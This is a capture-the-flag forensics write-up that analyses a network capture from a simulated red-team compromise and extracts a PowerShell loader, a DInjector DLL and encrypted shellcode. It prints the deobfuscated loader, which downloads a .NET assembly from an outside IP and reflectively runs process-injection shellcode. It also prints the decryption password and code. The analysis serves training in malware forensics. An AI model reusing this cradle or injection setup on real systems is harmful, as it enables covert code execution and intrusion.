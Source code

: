> During a recent red team engagement one of our servers got compromised.
> Upon completion the red team should have deleted any malicious artifact or
> persistence mechanism used throughout the project. However, our engineers
> have found numerous of them left behind. It is therefore believed that there
> are more such mechanisms still active.
> Can you spot any, by investigating this network capture?

> Author: **[thewildspirit][author-profile]**

## Extracting stream objects

Right away, Wireshark can put together the data exchanged:

```shell
tshark -r sources/capture.pcap --export-objects http,payloads/
ls -lah payloads/
# 4466600  4 -rw-r--r-- 1 flatline flatline  2232 May  3 17:46 4A7xH.ps1
# 4466602  4 -rw-r--r-- 1 flatline flatline   336 May  3 17:47 9tVI0
# 4466601 88 -rw-r--r-- 1 flatline flatline 86528 May  3 17:46 user32.dll
```

They can be easily labeled:

```shell
file payloads/9tVI0 
#payloads/9tVI0: OpenPGP Public Key
file payloads/user32.dll
# payloads/user32.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

And `4A7xH.ps1` is a Powershell script.

## Deobfuscating the script

The Powershell script is a little obfuscated:

```powershell
sV  ("{0}{1}" -f'Y','uE51') ([typE]("{5}{0}{2}{3}{1}{4}"-f 'STeM','EcTIOn.aS','.REF','L','SemblY','Sy'));  ${a} = ("{0}{1}{2}{3}{4}" -f 'cu','rr','en','tth','read')
```

Still it can be executed instruction by instruction to unveil its meaning:

```powershell
sV ('YuE51')([type] 'SySTeM.REFLEcTIOn.aSSemblY')
${a} = 'currentthread'
${b} = '147.182.172.189'
${c} = 80
${d} = 'user32.dll'
${e} = '9tVI0'
${f} = 'z64&Rx27Z$B%73up'
${g} = 'C:\Windows\System32\svchost.exe'
${h} = 'notepad'
${i} = 'explorer'
${j} = 'msvcp_win.dll'
${k} = 'True'
${l} = 'True'

${methods} = @('remotethread', 'remotethreaddll', 'remotethreadview', 'remotethreadsuspended')
if (${methods}.Contains.Invoke(${a})) {
    ${h} = (&'Start-Process' -WindowStyle 'Hidden' -PassThru ${h}).'Id'
}

${methods} = @('remotethreadapc', 'remotethreadcontext', 'processhollow')
if (${methods}.Contains.Invoke(${a})) {
    try {
        ${i} = (&'Get-Process' ${i} -ErrorAction 'Stop').'Id'
    }
    catch {
        ${i} = 0
    }
}

${cmd} = 'currentthread /sc:http://147.182.172.189:80/9tVI0 /password:z64&Rx27Z$B%73up /image:C:\Windows\System32\svchost.exe /pid:8668 /ppid:explorer /dll:msvcp_win.dll /blockDlls:True /am51:True'

${data} = (.'Invoke-WebRequest' -UseBasicParsing 'http://147.182.172.189:80/user32.dll').'Content'
${assem} =  ( ls 'vaRIaBLe:yUE51'  ).'Value'::'Load'.Invoke(${data})

${flags} = [Reflection.BindingFlags] ('NonPublic,Static')

${class} = ${assem}.('GetType').Invoke(('DInjector.Detonator'), ${flags})
${entry} = ${class}.('GetMethod').Invoke(('Boom'), ${flags})

${entry}.'Invoke'(${null}, (, ${cmd}.('Split').Invoke(" ")))
```

It is almost exactly the [cradle.ps1][cradle-script] from [snovvcrash][snovvcrash].

## DInjector

The script uses [DInjector][dinjector]:

- with an encrypted shellcode:
    - stored in `9tVI0`
    - and its password is `z64&Rx27Z$B%73up`
- the DInjector library is renamed `user32.dll`
- it spawns a new `svchost.exe` thread:
    - and loads `msvcp_win.dll` to host the shell code
    - to finally call the `boom` function

So the flag is certainly is the encrypted shellcode.

## Decrypting the shellcode

The repository of DInjector details the steps and provides an encryption script, [encrypt.py][encryption-script].

The shellcode is most like encrypted with the AES routine. It requires a password
and an IV of 16 random bytes:

```python
if args.algorithm == 'aes':
    iv = os.urandom(16)
    ctx = AES(args.password, iv)
```

The IV is actually placed at the start of the output:

```python
return self.iv + encryptor.update(raw) + encryptor.finalize()
```

And it can be seen with:

```shell
xxd -p -c 16 payloads/9tVI0 | head -n1
# 9907bb679e1765dcbdb467c1c4b00d21
````

Just in case, I tried with both decryption schemes:

```python
def xor(m: bytes, k: bytes) -> bytes:
    return bytes([m[__i] ^ k[__i % len(k)] for __i in range(len(m))])

__cipher = Cipher(algorithms.AES(KEY), modes.CBC(IV), backend=default_backend())
__decryptor = __cipher.decryptor()

__shellcode_aes = __decryptor.update(RAW[16:]) + __decryptor.finalize()
__shellcode_xor = xor(m=RAW, k=PASSWORD)
```

## Running the shellcode

The flag is not directly apparent in the shellcode. Let's try and run this
code in [BlobRunner][blobrunner].

In the command prompt:

```powershell
.\blobrunner.exe .\shellcode.aes.bin
```
After attaching [x32dbg][x32dbg], the "memory map" tab helps us navigate to the
shellcode at `0xDE0000`.

Running step by step, the process reaches a XOR loop, which generates the following output:

![][flag]

[author-profile]: https://app.hackthebox.com/users/70891
[blobrunner]: https://github.com/OALabs/BlobRunner
[cradle-script]: https://github.com/snovvcrash/DInjector/blob/main/cradle.ps1
[dinjector]: https://github.com/snovvcrash/DInjector
[flag]: images/screenshot-flag.png
[encryption-script]: https://github.com/snovvcrash/DInjector/blob/main/encrypt.py
[snovvcrash]: https://github.com/snovvcrash
